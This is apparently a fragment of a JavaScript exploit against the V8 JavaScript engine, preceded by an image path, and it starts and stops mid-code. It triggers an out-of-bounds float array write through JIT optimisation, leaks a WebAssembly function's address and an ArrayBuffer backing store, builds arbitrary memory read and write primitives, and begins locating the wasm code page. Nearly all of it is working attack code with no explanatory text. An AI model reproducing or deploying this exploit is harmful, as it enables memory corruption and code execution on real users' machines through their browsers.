 ```javascript
	idx = idx * 2;
	float_array[idx] = 1.74512933848984e-310;
}
foo("foo");
for(let i=0; i<10000; i++){
	foo("");
}

//%OptimizeFunctionOnNextCall(foo);
foo("foo");
console.log("float_array length: 0x"+hex(float_array.length));
//gc();

data_buf = new ArrayBuffer(0x233);
obj = {mark: i2f(0xdeadbeef), obj: wasm_function};

//---------find wasm_function
var float_obj_idx = 0;
for(let i=0; i < 0x400; i++)
{
	if(f2i(float_array[i]) == 0xdeadbeef){
		float_obj_idx = i + 1;
		console.log("[+] find wasm_function obj : 0x" + hex(f2i(float_array[float_obj_idx])));
		break;
	}
}

//------ find backing_store
var data_view = new DataView(data_buf);
var float_buffer_idx = 0;
for(let i=0; i < 0x1000; i++)
{
	if(f2i(float_array[i]) == 0x233){
		float_buffer_idx = i + 1;
		console.log("[+] find data_buf backing_store : 0x" + hex(f2i(float_array[float_buffer_idx])));
		break;
	}
}

//----- arbitrary read
function dataview_read64(addr)
{
	float_array[float_buffer_idx] = i2f(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	float_array[float_buffer_idx] = i2f(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}

//----- get wasm_code by AAR

var wasm_function_addr = f2i(float_array[float_obj_idx]);
console.log("[+] wasm_function_addr: 0x"+hex(wasm_function_addr));

var wasm_shared_info = dataview_read64(wasm_function_addr -1 + 0x18);
```